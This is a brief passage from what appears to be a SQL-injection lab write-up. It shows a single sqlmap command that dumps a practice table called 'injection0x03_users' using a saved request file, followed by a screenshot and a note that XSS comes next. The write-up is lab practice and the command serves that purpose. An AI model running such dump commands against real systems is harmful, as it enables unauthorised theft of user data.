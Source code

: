 ```
┌──(root㉿kali)-[/home/kali/Desktop/labs]
└─# sqlmap -r req4.txt -T injection0x03_users --dump
```

<figure><img src="../../../../.gitbook/assets/image (274).png" alt=""><figcaption></figcaption></figure>

Success SQLI! next is XSS :clap:
